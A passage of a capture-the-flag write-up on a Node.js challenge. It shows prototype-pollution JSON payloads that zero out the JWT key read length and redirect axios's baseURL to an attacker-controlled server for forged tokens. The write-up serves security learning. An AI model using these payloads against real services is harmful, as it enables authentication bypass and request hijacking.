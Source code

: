 There are 3 dependencies used in the script:
- [node:fs/promises](https://nodejs.org/api/fs.html)
- [node-jsonwebtoken](https://github.com/auth0/node-jsonwebtoken)
- [axios](https://github.com/axios/axios)

So the plan was to redirect axios client to our server somehow, provide a jwt signed by us and make the dep `node-jsonwebtoken` verify it as valid.

Node.js docs on [`fsPromises.open`](https://nodejs.org/api/fs.html#fspromisesopenpath-flags-mode) shows that it opens a [`<FileHandle>`](https://nodejs.org/api/fs.html#class-filehandle) and `make_order.js` uses to read `./jwtkey.txt` file (line 36) which has a very interesting option for us - `length`(see [here](https://nodejs.org/api/fs.html#filehandlereadbuffer-offset-length-position)). If we can pollute that property of the options we could make it read 0 bytes.

```JSON
{
    "__proto__": {
        "length": 0
    }
}
```

Sending a request to `https://delipo.ctfz.one/create_order` with the body above results in an error, which most probably indicates that the server failed to verify with jwt key, as it was empty when passed to `jwt.verify` on line 40.

![length error](length-error.png "Error thrown on polluted length")

Now we need to make axios to send the request to a server controlled by us and respond with our jwt token. `baseURL` set in line 6 seems to be the best fit, but it is already passed as an option. Disregarding that fact, we tried to pollute `baseURL` with the following JSON object:

```JSON
{
    "__proto__": {
        "length": 0,
        "baseURL":"https://our-server"
    }
}
```
